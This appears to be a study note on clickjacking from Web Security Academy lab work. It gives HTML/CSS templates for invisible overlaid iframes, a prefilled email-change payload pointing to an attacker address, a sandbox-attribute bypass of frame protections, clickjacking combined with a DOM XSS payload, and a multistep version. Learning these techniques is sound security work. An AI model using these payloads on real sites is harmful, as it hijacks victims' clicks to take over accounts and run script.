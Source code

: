 # Clickjacking (UI redressing)
Appears when we create some additional content (invisible iframe) on existing website and force user to click it.  
We use decoy website on which content is displayed and invisible evil site inside of iframe which is placed over original content.  
Clickjacking attacks are using CSS to place target content over decoy website like this:
```
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```
To generate HTML files automatically, we can use Clickbandit burp tool.  
Also we can pre-generate some field values (for example e-mail for update email function) in order to make victim send needed to us paylaod:
```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
## Bypassing protections
Main way of protecting against clickjacking attacks is browser extensions or framework configurations, which make frames visible or control website to be always top-alligned. One of ways to bypass it is to use `sandbox` attribute with `allow-forms` or `allow-scripts` values.
```
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```
## Combining clickjacking with DOM XSS
In such case we can add xss into iframe and force user to execute xss  
```
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
</style>
<div>Test me</div>
<iframe
src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```
## Multistep clickjacking
In such case we can use couple of divisions and iframes in order to force victim to perform multiple actions  
Example:
```
<style>
    #first_iframe {
        position:relative;
        width:1000px;
        height: 1000px;
        opacity: 0.5;
        z-index: 2;
    }
    #first_div {
        position:absolute;
        top:510px;
        left:80px;
        z-index: 1;
    }
    #second_div {
        position:absolute;
        top:300px;
        left:210px;
        z-index: 1;
    }
</style>
<div id="first_div">Click me first</div>
<div id="second_div">Click me next</div>
<iframe id="first_iframe" src="https://0af000a4043a20148070587b009600af.web-security-academy.net/my-account"></iframe>
```